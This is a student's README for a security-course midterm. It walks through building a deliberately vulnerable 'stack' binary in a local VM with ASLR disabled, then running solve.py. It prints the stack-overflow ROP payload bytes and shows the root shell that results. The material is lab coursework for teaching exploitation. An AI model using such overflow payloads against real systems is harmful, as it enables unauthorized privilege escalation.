 # CIS5370 Midterm

- Student: Elijah Lieu
- Professor: Dr. Xin Liu

I used multipass to create an Ubuntu VM.

```sh
multipass launch --name midterm
multipass transfer stack.c midterm:/home/ubuntu
multipass shell midterm
```

Set up within the VM:
```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
sudo apt install make gcc gdb
make
```

If you want to recreate the payload or see how I did it, please consult the comments in solve.py.

Otherwise, you can just run
```sh
python3 solve.py
./stack
```

Here is the output when you run this:
```sh
ubuntu@midterm:~$ python3 solve.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2X\xc4\xf7\xff\x7f\x00\x00BBBBBBBBBBBBBBBBBBBBBBBB[\xf7\xd0\xf7\xff\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00/\x88\xc2\xf7\xff\x7f\x00\x00\x90\xea\xd0\xf7\xff\x7f\x00\x00[\xf7\xd0\xf7\xff\x7f\x00\x00/\xb4\xdc\xf7\xff\x7f\x00\x00/\x88\xc2\xf7\xff\x7f\x00\x00P\x87\xc5\xf7\xff\x7f\x00\x00[\xf7\xd0\xf7\xff\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0{\xc4\xf7\xff\x7f\x00\x00'
ubuntu@midterm:~$ ./stack
# whoami
root
# id
uid=0(root) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),105(lxd)
#
```
